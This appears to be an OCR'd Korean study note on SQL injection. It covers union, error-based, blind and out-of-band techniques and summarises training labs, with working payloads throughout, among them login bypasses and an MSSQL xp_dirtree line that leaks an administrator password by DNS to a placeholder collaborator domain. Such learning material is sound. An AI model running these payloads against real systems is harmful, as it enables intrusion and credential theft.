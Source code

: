   * OOB(Out-of-Band) SQLi: 데이터베이스가 직접 HTTP 응답이나 시간에 영향을 주지 않을 때, DNS 조회나 HTTP 요청 같은 별도 채널을 이용해 정보를 빼내는 기법입니다. 대표적으로 DNS exfiltration이 있습니다. 공격자는 Burp Collaborator 같은 OOB 서버를 통해 고유 도메인을 만들고, SQL 쿼리 내 함수(xp_dirtree, LOAD_FILE 등)를 호출해 이 도메인에 DNS 요청을 발생시킵니다. 예를 들어 MSSQL에서:이 입력은 데이터베이스가 uniqueid.burpcollab.net로 DNS 조회를 하게 하여, 애플리케이션 응답과 무관하게 공격자 측에서 조회 로그를 확인할 수 있게 합니다. 응용하면 관리자의 암호를 바로 전송하게 할 수도 있습니다. 예:이 경우 데이터베이스의 관리자 암호가 서브도메인으로 전송되어 AdministratorPassword.unique.burpcollab.net 형태로 탈취됩니다. OOB 기법은 성공 확률이 높고 직접 데이터를 유출시킬 수 있기 때문에, 다른 블라인드 기법보다 우선적으로 사용되기도 합니다.
  * '; DECLARE @p VARCHAR(1024); SET @p = (SELECT password FROM users WHERE username='Administrator'); EXEC('master..xp_dirtree "//'+@p+'.unique.burpcollab.net/a"')-- 

  * '; EXEC master..xp_dirtree '//uniqueid.burpcollab.net/a'-- 




아래 표는 주요 SQLi 기법의 특징과 예시를 요약한 것입니다.

공격 기법특징예시 (페이로드)  UNION 기반 SQLi | 추가 SELECT문으로 결과 병합(컬럼 수·형식 일치 필요) | id=1 UNION SELECT username,password FROM users--  
---|---|---  
오류 기반 SQLi | 오류 메시지나 오류 발생 여부로 정보 추출 | ' OR 1=0; SELECT 1/0-- (의도적 오류)  
블라인드 (Boolean) | 조건문 결과에 따라 페이지 변화 관찰 | TrackingId=xyz' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a  
블라인드 (Time) | 쿼리 지연량 측정하여 정보 추론 | ' OR IF(SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a', SLEEP(5), 0)--  
OOB(SQLi) | DNS/HTTP 등 외부 채널로 데이터 전달 | '; EXEC master..xp_dirtree '//<비밀>.burpcollab.net/a'--  
  
## SQL 인젝션 실습 예제 (Labs) 요약

  * Lab: WHERE절 기반 숨겨진 데이터 조회 (숨은상품 노출) – 카테고리 필터(category 파라미터)에 SQLi가 있습니다. 원래 쿼리는입니다. 입력값을 Gifts' OR 1=1--로 조작하면 released=1 조건이 주석 처리되어 모든 상품(숨겨진 released=0 포함)이 표시됩니다. 예:이로써 정상 범위 밖의 상품 정보를 획득하게 됩니다. 보안 교훈: 입력 검증/파라미터화 미흡으로 필터 조건을 우회할 수 있으므로, 사용자가 보낸 값은 반드시 안전하게 처리해야 합니다. 

  * https://site/products?category=Gifts'+OR+1=1-- 

  * SELECT * FROM products WHERE category = 'Gifts' AND released = 1; 

  * Lab: 로그인 우회 (Authentication Bypass) – 로그인 폼에 SQLi가 존재합니다. 원래 쿼리 예시는 WHERE username = 'administrator' AND password = 'pw'; 식입니다. 사용자명에 administrator' --를 입력하면, 쿼리가으로 변조되어 관리자 계정으로 로그인됩니다. 예:이 실습은 조건부 주석(Comment)을 통해 인증 로직을 우회하는 전형적인 예시입니다. 교훈: 로그인 입력값 검증 실패는 즉시 계정 탈취로 이어지므로, 아이디/비밀번호 같은 중요한 입력값은 반드시 파라미터화된 쿼리로 처리해야 합니다. 

  * Username: administrator'-- Password: (무작위)

  * SELECT * FROM users WHERE username = 'administrator' \--' AND password = 'pw';

  * Lab: Oracle DB 종류/버전 조회 – 제품 필터에서 SQLi가 가능하며, UNION을 활용해 데이터베이스 버전 문자열을 가져옵니다. Oracle에서는 모든 SELECT 뒤에 테이블 지정이 필요하므로 DUAL을 사용합니다. 예를 들어 WHERE category='Pets' 파라미터를으로 바꾸면, v$version 뷰의 banner 컬럼(버전 정보)을 가져올 수 있습니다. 예: Oracle Database 12c Enterprise Edition ... 등이 출력됩니다. 교훈: Oracle 특성상 DUAL이나 시스템 뷰(v$version)를 사용해야 하며, UNION 사용 시 컬럼 수를 맞춰야 한다는 점을 학습합니다.  


  * Pets' UNION SELECT banner, NULL FROM v$version-- 

  * Lab: MySQL/MSSQL DB 종류/버전 조회 – 유사하게 UNION으로 DB 버전을 조회합니다. MySQL과 MSSQL은 둘 다 @@version 변수를 지원합니다. 예:또는 MSSQL 형식으로을 통해 DB 정보를 확인할 수 있습니다. (실제 실습에서는 @@version을 첫 컬럼에 넣어 반환) 결과로 MySQL/MSSQL 버전 문자열이 표시됩니다. 이를 통해 DB 종류에 따른 쿼리 차이를 확인할 수 있습니다. 교훈: @@version 같은 내장 변수를 통해 RDBMS 종류와 버전을 쉽게 파악할 수 있습니다.
  * Pets'; WAITFOR DELAY '0:0:0'-- 
